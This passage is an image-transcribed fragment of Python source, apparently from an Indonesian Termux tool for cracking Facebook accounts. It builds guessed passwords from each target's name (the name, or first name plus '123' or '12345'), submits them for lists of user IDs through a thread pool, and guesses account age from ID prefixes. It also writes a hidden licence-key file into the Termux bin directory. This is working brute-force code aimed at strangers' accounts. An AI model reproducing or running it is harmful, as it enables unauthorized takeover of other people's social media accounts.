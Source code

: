                         else:
                            pwx = [name, xz[0]+"123", xz[0]+"12345"]
                        _ngentot_gratis_.submit(self.__mfb__, uid, pwx)
                    except:
                            pass
            os.remove(self.apk)
            hasil(ok,cp)
        else:
            IMTIAZ_AKING('\nSalah')
            time.sleep(1)
            self.__pler__()
def tahun(fx):
    if len(fx)==15:
        if fx[:10] in ['1000000000']       :tahunz = ' '
        elif fx[:9] in ['100000000']       :tahunz = '  '
        elif fx[:8] in ['10000000']        :tahunz = ' '
        elif fx[:7] in ['1000000','1000001','1000002','1000003','1000004','1000005']:tahunz = ' '
        elif fx[:7] in ['1000006','1000007','1000008','1000009']:tahunz = ' '
        elif fx[:6] in ['100001']          :tahunz = ' '
        elif fx[:6] in ['100002','100003'] :tahunz = ' '
        elif fx[:6] in ['100004']          :tahunz = ' '
        elif fx[:6] in ['100005','100006'] :tahunz = ' '
        elif fx[:6] in ['100007','100008'] :tahunz = ' '
        elif fx[:6] in ['100009']          :tahunz = ' '
        elif fx[:5] in ['10001']           :tahunz = ' '
        elif fx[:5] in ['10002']           :tahunz = ' '
        elif fx[:5] in ['10003']           :tahunz = ' '
        elif fx[:5] in ['10004']           :tahunz = ' '
        elif fx[:5] in ['10005']           :tahunz = ' '
        elif fx[:5] in ['10006','10007','10008']:tahunz = ' '
        else:tahunz=''
    elif len(fx) in [9,10]:
        tahunz = ' '
    elif len(fx)==8:
        tahunz = ' '
    elif len(fx)==7:
        tahunz = ' '
    else:tahunz=''
    return tahunz
 
 
try:
	idx = open('/data/data/com.termux/files/usr/bin/.mk1.2.txt', 'r').read()
except (KeyError, IOError):
	id1 = uuid.uuid4().hex[:3].upper()
	id2 = uuid.uuid4().hex[:6].upper()
	id3 = uuid.uuid4().hex[:4].upper()
	idcio = id1 + '-' +id2 + '-' + id3 
	skey = open('/data/data/com.termux/files/usr/bin/.mk1.2.txt', 'w')
	skey.write(idcio)
	skey.close()
 